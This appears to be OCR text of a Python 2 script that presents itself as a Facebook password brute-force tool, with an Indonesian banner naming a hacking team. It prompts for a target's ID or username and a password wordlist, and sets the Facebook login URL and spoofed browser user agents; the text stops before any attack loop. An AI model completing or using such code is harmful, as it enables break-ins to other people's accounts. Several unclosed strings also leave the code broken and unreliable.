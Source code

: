def banner():

    os.system('clear')

    print " "

    runntxt(GL+"              ahasan)

    runntxt(WW+"   ..................  ANDA MENCOBA MENGHUBUNGI")

    runntxt(WW+"     ....      Db1)

    runntxt(GL+"                   BODO AMAT CUK")

    runntxt(GG+"     ..........     MANDI DULU SANA")

    runntxt(Y+"    ............       DILARANG CO*I")

    runntxt(GG+"           INGAT COK ")

    time.sleep(1.5)

    print GG+"  √=============================================√"

    print GL+"  |••••••   NEW TOOLS HACK FACEBOOK BF.   ••••••|"

    print GG+"  √=============================================√"

    print WW+"  |            MOD BY: Db1           |"

    print GL+"  |       Berdoa Dulu Sebelum Menggunakan       |"

    print WW+"  |        TEAM : InDoNeSiA CYBER ErRoR SyStEm            |"

    print Y+"  |             INSTAGRAM: pranata_pasha              |"

    print GL+"  |---------------------------------------------|"

    print GL+"  |        LIFE OF PROGRAMMER [ L.O.P ]         |"

    print GL+"  |---------------------------------------------|"

    print GG+"  √=============================================√"

    print GL+"  |•••••••••   HACK FACEBOOK MAS ^_^   •••••••••|"

    print GG+"  √=============================================√"

banner()

print wd+"         gunakan dengan bijak cok "

print GG+"╭────\033[91m[\033[96m Masukkan ID\033[95m / \033[96mUsername Target\033[91m ] "

email_target = str(raw_input(GL+"\033[92m╰────➲\033[93m  "))

print " "

print "\033[92m╭────\033[91m[ \033[96mMasukkan File Wordlist \033[95m( pass.txt ) \033[91;1m]"

password_list = str(raw_input(GG+"╰────➲\033[93m "))

login = 'https://www.facebook.com/login.php?login_attempt=1'

useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Geck')]
